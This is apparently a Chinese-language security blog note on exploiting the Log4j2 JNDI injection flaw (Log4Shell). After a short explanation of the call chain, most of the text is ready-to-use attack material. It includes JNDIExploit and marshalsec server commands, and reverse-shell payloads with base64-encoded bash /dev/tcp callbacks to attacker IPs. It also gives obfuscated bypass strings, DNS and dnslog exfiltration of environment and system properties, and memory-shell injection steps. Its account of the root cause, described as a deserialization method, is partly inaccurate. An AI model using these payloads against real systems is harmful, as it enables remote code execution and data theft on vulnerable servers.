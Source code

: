 +++
title = 'Log4j2'
date = 2024-10-11T14:25:59+08:00
draft = false
private = true
show_reading_time = true
categories = 'Java组件'
+++


# 一、Log4j2

Log4j是Apache的一个开源项目，通过使用Log4j，我们可以控制日志信息输送的目的地是控制台、文件、GUI组件，甚至是套接口服务器、NT的事件记录器、UNIX Syslog守护进程等；我们也可以控制每一条日志的输出格式；通过定义每一条日志信息的级别，我们能够更加细致地控制日志的生成过程。


​ Log4j在工程中可以易用，方便等代替了 System.out 等打印语句，它是Java下最流行的日志输入工具，一些著名的开源项目，像spring、hibernate、struts都使用该工具作为日志输入工具，可以帮助调试（有时候debug是发挥不了作用的）和分析。

# 二、漏洞原理

由于log4j2库中的JNDI查询功能存在反序列化漏洞，具体来说是由于log4j2在处理日志事件时，使用了java反序列化机制(java Serialization)对java的对象和反序列化操作,没有对反序列化中的过程做安全的验证措施
导致可以构造恶意的JNDI名称的特殊日志来触发log4j2库中的JndiLookup.deserialized()方法调用，在执行反序操作时，可以利用java反序列漏洞，将恶意的代码注入到反序列化对象中，从而实现远程命令攻击。

来看一下正常使用的代码：




```
import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;
 
public class Log4j2Test {
    private static  final Logger logger = LogManager.getLogger();
    public static void main(String[] args) {
        String username = "world";
        logger.error("hello {}",username);
    }
```

正常这里会传入log4j2，hello word，如果我们传入${java:version}则会记录java版本， 大致的调用链如下：

MessagePatternConverter.format()会对```${```进行检测识别，并调用StrSubstitutor.replace()对传入的值进行处理StrSubstitutor类中多个方法处理到StrSubstitutor.substitute()将${jndi:rmi://192.168.198.134:9999/exp}处理解析为jndi:rmi://192.168.198.134:9999/exp后并调用resolveVariable()
StrSubstitutor.resolveVariable()调用lookup方法
判断识别jndi的处理类JndiLookup
JndiLookup.lookup()调用JndiManager.getDefaultManager()获得context
并通过JndiManager.lookup()调用java自身的InitialContext.lookup()，InitialContext类是执行命名操作的初始上下文，所有命名操作都相对于某一上下文，该初始上下文实现 Context 接口并提供解析名称的起始点，通过lookup()检索

到最后一步，如果看不明白可以详细查看JNDI注入的相关内容。

# 三、漏洞发现

由于日志框架，只能哪里有空哪里插，目前依赖于插件以及xray等工具进行检测

影响范围：Apache Log4j 2.x<=2.14.1

# 四、漏洞利用

开启log4j2的JNDI注入工具：

```
java -jar JNDIExploit-1.4-SNAPSHOT.jar -i 192.168.2.40
```

值得注意的是，此处的IP不能为回环地址，而必须为使用的IP地址

![](/zj_img/WEBRESOURCEf4a59216cb0105b4103e10fc35a7697b截图.png)

发送恶意payload:

基础payload:

```
${jndi:ldap://dadad.ceye.io}
```

反弹shell：

```
${jndi:ldap://10.10.14.147:1389/Basic/ReverseShell/10.10.14.147/8888}  实战中有失败案例
${jndi:ldap://10.10.14.147:1389/ldap://10.10.14.147:1389/Basic/Command/Base64/YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xNDcvODg4OCAwPiYx}  使用较多
```

**另外一个工具的使用方式：**

坑点：空格少一个，多一个可能导致运行失败

```
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "bash -c {echo,Base64编码后的Payload}|{base64,-d}|{bash,-i}" -A "攻击机IP"
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjIuNDAvODg4OCAwPiYx}|{base64,-d}|{bash,-i}" -A "192.168.2.40"
```

payload:

工具运行会显示：

![](/zj_img/WEBRESOURCE9efb3ef4b73730bb26e334823b026b48截图.png)

绕过payload示例：

```
${${::-j}${::-n}${::-d}${::-i}:ldap://120.24.183.94:1389/Basic/ReverseShell/120.24.183.94/65510}
```

TIPS:

可能遇到URL编码问题，可观察命令情况以及URL编解码解决

带出方法：

```
${jndi:ldap://${java:version}.u2xf5m.dnslog.cn}
```

DNS带出：

使用
```
logg.error("${jndi:dns://xxxxx:8090/${java:version}}");
```

在自己的VPS上nc -luvvp 8090即可收到信息





在自己的VPS上nc -luvvp 8090即可收到信息

![](/zj_img/WEBRESOURCE742b30da9f5e2149bd0c86065a925dda0d81a246a42ab1f05de994beb001bc62.png)

其他命令：

log4j-java





```
ID	usage	method
1	${java:version}	getSystemProperty("java.version")
2	${java:runtime}	getRuntime()
3	${java:vm}	getVirtualMachine()
4	${java:os}	getOperatingSystem()
5	${java:hw}	getHardware()
6	${java:locale}	getLocale()
```

Linux





```
id	usage
1	${env:CLASSPATH}
2	${env:HOME}
3	${env:JAVA_HOME}
4	${env:LANG}
5	${env:LOGNAME}
6	${env:MAIL}
7	${env:PATH}
8	${env:PWD}
9	${env:SHELL}
10	${env:USER}
```

Windows





```
id	usage
1	${env:A8_HOME}
2	${env:A8_ROOT_BIN}
3	${env:CLASSPATH}
4	${env:JRE_HOME}
5	${env:Java_Home}
6	${env:LOGONSERVER}
7	${env:OS}
8	${env:Path}
9	${env:USERDOMAIN}
10	${env:USERNAME}
```

log4j2-sys





```
id	usage
1	${sys:java.version}
2	${sys:os.name}
3	${sys:os.version}
4	${sys:user.name}
```

# 五、内存马注入

大致方式和fastjson jndi注入一致：

```
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer "http://192.168.5.106:8888/#a" 9999
```

```
${jndi:rmi://192.168.5.106:9999/b}
```

![](/zj_img/WEBRESOURCE795910d646b10087b218070c30b1adfeimage.png)

受限于JDK版本和组件，注入方法可能不太一样，其他集成工具有待验证。